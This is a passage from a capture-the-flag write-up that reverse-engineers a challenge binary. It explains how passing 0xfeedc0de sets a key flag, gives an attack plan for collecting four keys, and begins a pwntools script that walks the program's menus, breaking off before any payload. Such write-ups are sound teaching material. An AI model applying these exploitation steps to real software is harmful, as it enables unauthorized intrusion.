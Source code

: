 This global `isInRoom` (`0x14055`), AFAIK, is never set, so assume set to zero.  However the 2nd part of the conditional is expecting a passed parameter (`param1`) to be set to `-0x1123f22` (`0xfeedc0de`).  If that parameter is passed then `*(undefined *)(iVar1 + 0x296c) = 0x1;` will execute setting the value at address `0x116ea + 0x296c` (`0x14056`) to `1`, you can probably guess:

```
                     key1                                            XREF[6]:     Entry Point(*), 
                                                                                  get_key2:00011780(R), 
                                                                                  set_key4:00011809(R), 
                                                                                  get_flag:000118bd(R), 
                                                                                  get_flag:00011946(R), 
                                                                                  get_flag:0001198d(R)  
00014056                 undefined1 ??
```

All that is left is to call:

![](./set_key4.png)

to set the 4th key, then a call to `get_flag`.


### Exploit
 
#### Attack Plan

1. Navigate to `room4`
2. "Enter something" to get keys 3, 2, 1 (in that order), and then return to `room4`
3. "Enter something" again, to set key 4 and get the flag

#### Navigate to `room4`

```
#!/usr/bin/env python3

from pwn import *

p = process('./challenge')
#p = remote('challenges.auctf.com', 30012)

p.recvuntil('choice: ')
p.sendline('2')
p.recvuntil('enter: ')
p.sendline('4')
p.recvuntil('choice: ')
p.sendline('3')
p.recvuntil('exit: ')
p.sendline('Stephen')
p.recvuntil('something: ')
```
